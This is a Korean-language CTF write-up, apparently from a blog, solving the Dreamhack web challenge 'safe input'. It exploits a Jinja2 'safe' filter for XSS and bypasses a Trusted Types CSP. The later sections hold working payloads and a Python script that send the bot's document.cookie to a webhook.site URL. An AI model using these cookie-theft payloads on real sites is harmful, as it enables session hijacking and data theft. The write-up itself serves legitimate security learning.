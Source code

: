 ```yaml
---
layout: single
title: "[Dreamhack] safe input write-up"
date: 2024-01-13 23:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] safe input

### 😊 문제 설명

- It's so safe that it can't be seen.

<br>

### ✏️ 풀이

<br>

문제 사이트에 접속해보면 /test 경로로 바로 리다이렉트 된다.

![{CA4C553B-F9C9-4834-B07B-0839DA511D0C}](/images/2025-01-11-safe-input/{CA4C553B-F9C9-4834-B07B-0839DA511D0C}.png)

<br>

app.py 소스 코드를 보면 `/` 경로로 GET 요청을 하면 `/test` 경로로 리다이렉트 하고 `/test` 경로에서는 test.html 파일을 보여주고 `text` 파라미터를 받아와서 `test` 라는 변수에 넣어 리턴해준다.

```python
@app.route("/", methods=["GET"])
def index():
    return redirect("/test")

@app.route("/test", methods=["GET"])
def intro():
    text = request.args.get("text")
    return render_template("test.html", test=text)
```

<br>

또한 아래의 `access_page` 함수와 `/report` 경로의 소스 코드를 살펴보면 `/report` 경로에서는 `text` 파라미터를 받아와서 `access_page` 함수의 인자에 넣어주고 쿠키 값에 FLAG 값을 설정한 것으로 보아 XSS 문제인 것 같다.

```python
def access_page(text, cookie={"name": "name", "value": "value"}):
    try:
        service = Service(executable_path="/chromedriver-linux64/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(f"http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(f"http://127.0.0.1:8000/test?text={quote(text)}")
        sleep(1)
    except Exception as e:
        print(e, flush=True)
        driver.quit()
        return False
    driver.quit()
    return True

@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        text = request.form.get("text")
        if not text:
            return render_template("report.html", msg="fail")

        else:
            if access_page(text, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", message="Success")
            else:
                return render_template("report.html", message="fail")
    else:
        return render_template("report.html")
```

<br>

test.html의 script 태그를 살펴보면 jinja2 템플릿을 사용하고 있는 것을 알 수 있는데, `test` 값에 `safe` 필터가 적용되어 있는 것을 볼 수 있다. 이를 찾아보면 `safe` 필터는 HTML 이스케이프 없이 출력하도록 해주어 XSS 취약점을 유발할 수 있다.

```html
<body>
    <div class="container">
        <div class="note-header">Note</div>
        <div id="content" class="note-content">Hi everyone!</div>
        <div class="note-footer">This is Test</div>
    </div>
    <script>
            const contentElement = document.getElementById('content');
            const safeInput = "Test: " + `{{test|safe}}`;
    </script>
</body>
```

<br>

app.py 소스 코드에서 봤던 것처럼 `text` 파라미터에 인자를 넣어주면 값을 `test`에 넣어주고, 백틱으로 감싸져 있기 때문에 `${alert(1)}`을 `text` 파라미터에 넣어주면 alert(1)이 실행되는 것을 볼 수 있다.

![{9DE507F1-A3B5-4972-977B-F672DAFDAFD2}](/images/2025-01-11-safe-input/{9DE507F1-A3B5-4972-977B-F672DAFDAFD2}.png)


<br>

아래와 같은 페이로드를 사용해 POST 메소드로 webhook에 document.cookie를 보내보니 요청은 오는데 에러가 발생해서 쿠키 값이 안가는 거 같다.

```text
${fetch('https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3', {method: 'POST', body: document.cookie})}
```

![{266D0ACF-032B-41FE-916D-FFA54DDB50C9}](/images/2025-01-11-safe-input/{266D0ACF-032B-41FE-916D-FFA54DDB50C9}.png)

<br>

그래서 아래와 같이 GET 메소드로 바꿔 보내보면 임의로 설정한 쿠키 값이 보내진다. 그리고 report 페이지에서 입력하고 보내보니 Fail이 뜬다. 아마 Console 창에 나타난 오류 때문인 것 같다.

```text
${fetch(`https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3?cookie=${document.cookie}`)}
```

![{5C2FC581-96C3-4937-9A77-6A10C0B6A61B}](/images/2025-01-11-safe-input/{5C2FC581-96C3-4937-9A77-6A10C0B6A61B}.png)

<img src="/images/2025-01-11-safe-input/{FA02176E-80D8-4B9B-9E6C-B7CDEAFE63D1}.png" alt="{FA02176E-80D8-4B9B-9E6C-B7CDEAFE63D1}" style="zoom:50%;" />

<br>

자세히보니 test.html에 아래와 같은 CSP가 적용되어 있었다. Trusted Types 정책이 적용되어 있는데 script와 관련된 동적 콘텐츠 조작 시 반드시 Trusted Types 객체를 사용해야 한다. 보면 script 태그를 사용할 때 16007a93f75cde3710032976adfbcbab 라는 이름의 Tursted Types 객체를 사용하라고 되어 있는데  따로 설정된 정책이 없다.

```html
<meta http-equiv="Content-Security-Policy" content="require-trusted-types-for 'script'; trusted-types 16007a93f75cde3710032976adfbcbab;">
```

<br>

https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API 에서 사용하는 API를 사용해서 아래와 같이 페이로드를 작성하면 flag 값을 얻을 수 있다.

```python
from requests import post

URL = 'http://host1.dreamhack.games:9659'

payload = 'a`+"<img src=x onerror=fetch(\'https://webhook.site/081276fb-f3d6-47c8-9bd2-0dac98fe8ec3?cookie=\'+document.cookie)>";let policy=window.trustedTypes.createPolicy("16007a93f75cde3710032976adfbcbab",{createHTML:(input)=>{return input;}});contentElement.innerHTML=policy.createHTML(safeInput);//'

post(f'{URL}/report', data={"text": payload})

```

![{6438EB5F-D688-49B3-A64A-CD0079267123}](/images/2025-01-11-safe-input/{6438EB5F-D688-49B3-A64A-CD0079267123}.png)
